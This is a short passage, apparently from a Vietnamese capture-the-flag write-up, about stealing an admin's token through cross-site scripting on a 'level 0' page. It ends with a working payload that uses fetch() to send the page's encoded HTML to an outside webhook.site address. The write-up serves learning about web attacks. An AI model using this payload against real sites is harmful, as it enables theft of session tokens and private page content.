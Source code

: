 

Để có thể lấy token thì ta sẽ lấy toàn bộ HTML của trang web level 0 mà admin sẽ vào thông qua XSS. Để lấy thì ta có thể sử dụng document.body.innerHTML. Vì một số yếu tố về newline mà ta cần chuyển sang dạng khác bằng encodeURIComponent hoặc JSON.stringify. 

```html
<script>console.log(encodeURIComponent(document.body.innerHTML))</script>
```


![image](./images/image40.png)

Và cuối cùng ta sẽ build được một payload sau để lấy content của web

```html
<script>fetch('https://webhook.site/e5799148-b55d-49e8-b89b-987a28176905/?c='+encodeURIComponent(document.body.innerHTML))</script>
```
